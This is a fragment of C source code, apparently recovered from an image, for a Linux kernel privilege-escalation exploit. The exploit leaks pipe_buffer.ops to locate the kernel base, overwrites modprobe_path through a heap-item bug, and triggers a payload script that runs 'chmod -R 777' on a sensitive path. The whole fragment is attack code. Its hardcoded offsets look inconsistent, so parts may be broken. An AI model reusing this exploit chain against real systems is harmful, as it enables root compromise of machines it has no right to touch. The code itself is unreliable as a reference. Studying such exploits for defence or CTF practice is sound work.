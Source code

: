 ```c


    // read A and leak pipe_buffer.ops
    memset(buf, 0, BUF_SIZE);
    n = read(fd, buf, 0x400 + 0x30);
    if (-1 == n) {
        err("read");
    }
    //hex_view(buf, n);

    leak = *(unsigned long long *)(buf + 0x400 + 0x10);
    kbase = leak - (0xffffffffa8210840 - 0xffffffffa7a00000);
    modprobe_path = kbase + (0xffffffff89251a00 - 0xffffffff88800000);

    printf("[+] pipe_buffer.ops = %p\n", leak);
    printf("[+] kbase = %p\n", kbase);
    printf("[+] modprobe_path @ %p\n", modprobe_path);


    memset(buf, 'A', BUF_SIZE);
    new_item(buf, 0x100); // B -> A


    // B.next = modprobe_path
    memset(buf, 0, BUF_SIZE);
    *(unsigned long long *)(buf + 0x108) = modprobe_path;
    edit_item(0, buf, 0x110);

    // leak [modprobe_path; modprobe_path + 0x108] to prevent panic
    memset(bak, 0, sizeof(bak));
    n = read(fd, bak, 0x110 + 0x108);
    if (-1 == n) {
        err("read");
    }
    //hex_view(bak, n);

    // overwrite modprobe_path
    strncpy(buf, "/home/user/pld", BUF_SIZE);
    edit_item(1, buf, strlen(buf) + 1);

    // B.next = modprobe_path + 0x20
    memset(buf, 0, BUF_SIZE);
    *(unsigned long long *)(buf + 0x108) = modprobe_path + 0x20;
    edit_item(0, buf, 0x110);

    // prevent panic
    memmove(bak, bak+0x110+0x20, 0x108-0x20);
    edit_item(1, bak, 0x108-0x20);


    puts("[+] getting a shell :)");
    system("echo '#!/bin/sh\nchmod -R 777 /passwd' > /home/user/pld");
    system("echo -e '\xef\xbe\xad\xde' > /home/user/x");
    system("chmod 777 /home/user/pld /home/user/x");
    system("/home/user/x");

    close(fd);

    return 0;
}
```
